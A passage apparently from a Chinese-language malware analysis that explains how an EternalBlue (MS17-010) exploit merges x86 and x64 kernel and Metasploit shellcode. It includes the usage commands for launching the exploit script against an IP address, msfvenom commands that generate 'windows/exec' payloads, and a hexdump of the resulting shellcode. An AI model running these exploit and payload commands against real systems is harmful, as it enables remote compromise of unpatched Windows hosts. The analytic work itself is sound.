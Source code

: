 在 `eternalblue_sc_merge.py` 脚本中，最终的 ShellCode 是通过合并 32 位和 64 位 ShellCode 生成的。具体合并规则如下：

1. 对于 32 位系统：首先放置 32 位内核 ShellCode，然后是 32 位 Metasploit ShellCode。
1. 对于 64 位系统：首先放置 64 位内核 ShellCode，然后是 64 位 Metasploit ShellCode。

脚本中介绍的使用方法是这样：

```
$ cat sc_x64_kernel.bin sc_x64_msf.bin > sc_x64.bin
$ cat sc_x86_kernel.bin sc_x86_msf.bin > sc_x86.bin
$ python eternalblue_sc_merge.py sc_x86.bin sc_x64.bin sc_all.bin
$ python eternalblue_exploit7.py 192.168.13.81 sc_all.bin
```

对应的 ShellCode 结构：

| 偏移量                               | 大小               | 内容                      | 描述                                                                                                                       |
| ------------------------------------ | ------------------ | ------------------------- | -------------------------------------------------------------------------------------------------------------------------- |
| 0                                    | 2 字节             | `\x31\xc0`                | `xor eax, eax` - 清零 `eax` 寄存器                                                                                         |
| 2                                    | 1 字节             | `\x40`                    | `inc eax` - 增加 `eax`值（在 x86 和 x64 上行为不同）                                                                       |
| 3                                    | 6 字节             | `\x0f\x84` + 4 字节长度值 | `jz <offset>` - 如果零标志被设置则跳转                                                                                     |
| 9                                    | sc_x86_kernel 长度 | x86 kernel shellcode      | [eternalblue_kshellcode_x86.asm](https://github.com/worawit/MS17-010/blob/master/shellcode/eternalblue_kshellcode_x86.asm) |
| 9 + sc_x86_kernel 长度               | sc_x86_msf 长度    | x86 msf shellcode         | msf payload                                                                                                                |
| 9 + sc_x86 长度                      | sc_x64_kernel 长度 | x64 kernel shellcode      | [eternalblue_kshellcode_x64.asm](https://github.com/worawit/MS17-010/blob/master/shellcode/eternalblue_kshellcode_x64.asm) |
| 9 + sc_x86 长度 + sc_x64_kernel 长度 | sc_x64_msf 长度    | x64 msf shellcode         | msf payload                                                                                                                |

所以要获得实际攻击者生成的 32 位和 64 位 ShellCode，只需要去除开头指令和内核 ShellCode。

识别内核 ShellCode 开头末尾位置，分离出 MSF ShellCode，正常流程是这样，但我懒。

懒人的直觉告诉我攻击者用 MSF payload `windows/exec` 生成 ShellCode，所以我尝试生成类似的 ShellCode 并与样本进行对比：

```
$ msfvenom -p windows/exec CMD="whoami" -f raw -o msf_windows_exec_x86.bin EXITFUNC=thread
$ msfvenom -p windows/x64/exec CMD="whoami" -f raw -o msf_windows_exec_x64.bin EXITFUNC=thread
```

```hexdump title="$ xxd msf_windows_exec_x86.bin"
00000000: fce8 8200 0000 6089 e531 c064 8b50 308b  ......`..1.d.P0.
00000010: 520c 8b52 148b 7228 0fb7 4a26 31ff ac3c  R..R..r(..J&1..<
00000020: 617c 022c 20c1 cf0d 01c7 e2f2 5257 8b52  a|., .......RW.R
00000030: 108b 4a3c 8b4c 1178 e348 01d1 518b 5920  ..J<.L.x.H..Q.Y
00000040: 01d3 8b49 18e3 3a49 8b34 8b01 d631 ffac  ...I..:I.4...1..
00000050: c1cf 0d01 c738 e075 f603 7df8 3b7d 2475  .....8.u..}.;}$u
00000060: e458 8b58 2401 d366 8b0c 4b8b 581c 01d3  .X.X$..f..K.X...
00000070: 8b04 8b01 d089 4424 245b 5b61 595a 51ff  ......D$$[[aYZQ.
00000080: e05f 5f5a 8b12 eb8d 5d6a 018d 85b2 0000  .__Z....]j......
00000090: 0050 6831 8b6f 87ff d5bb e01d 2a0a 68a6  .Ph1.o......*.h.
000000a0: 95bd 9dff d53c 067c 0a80 fbe0 7505 bb47  .....<.|....u..G
000000b0: 1372 6f6a 0053 ffd5 7768 6f61 6d69 00    .roj.S..whoami.
```
